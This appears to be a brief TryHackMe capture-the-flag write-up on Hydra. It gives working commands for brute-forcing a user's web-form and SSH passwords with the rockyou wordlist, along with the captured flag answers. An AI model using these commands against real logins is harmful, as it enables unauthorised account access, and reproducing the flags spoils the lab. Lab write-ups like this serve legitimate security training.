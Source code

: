# Hydra

Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

## Using Hydra

    1. Use Hydra to bruteforce molly's web password. What is flag 1?
        a.  THM{2673a7dd116de68e85c48ec0b1f2612e} - hydra -l molly -P /usr/share/wordlists/rockyou.txt <ipaddress> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
    2. Use Hydra to bruteforce molly's SSH password. What is flag 2?
        a. THM{c8eeb0468febbadea859baeb33b2541b} - Using the command 'hydra -l molly -P /usr/share/wordlists/rockyou.txt <ipaddress> -t 4 ssh ' the password was brute forced. I then was able to use the command 'ssh molly@ipaddress followed by the password that was found to login and locate the flat in the home directory. Then it was as simple as using 'cat flag2.txt' to display the flag.
